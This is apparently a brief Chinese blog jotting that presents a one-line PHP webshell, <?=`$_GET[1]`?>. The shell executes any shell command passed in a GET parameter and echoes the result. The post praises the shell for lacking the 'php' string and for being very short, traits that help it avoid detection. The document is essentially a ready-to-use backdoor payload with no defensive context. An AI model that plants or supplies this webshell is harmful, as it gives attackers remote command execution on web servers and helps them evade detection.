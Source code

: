 # 超短webshell


随手记一下

<!--more-->

```
<?=`$_GET[1]`?>
```

注意里面是反引号

特点：

无`php`字样
非常短
利用echo+反引号执行命令的特征实现回显。
